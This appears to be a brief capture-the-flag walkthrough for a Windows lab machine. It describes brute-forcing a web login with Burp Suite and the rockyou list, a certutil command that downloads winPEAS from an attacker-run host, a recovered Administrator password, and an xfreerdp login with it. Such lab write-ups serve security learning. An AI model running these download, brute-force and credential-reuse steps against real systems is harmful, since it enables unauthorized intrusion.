

Brute Force inside burpsuite // they want a hydra brute force but burp was way simpler- used sniper and pasted raw file of rockyou into payload bar
Login for website:


upload winpeasx64.exe
>certutil -urlcache -f http://10.13.17.108:9090/winPEASx64.exe winPEAS.exe
> winPEAS.exe
WinPeas has a lot to show, but the easiest thing we found was the admin username and password

administrator : 4q6XvFES7Fdxs
So we know port 3389 is running (Windows Remote Desktop)
so lets connect
kali> xfreerdp /u:Administrator /p:4q6XvFES7Fdxs /v:10.10.68.125
Now you are signed in as Admin, get user and root flag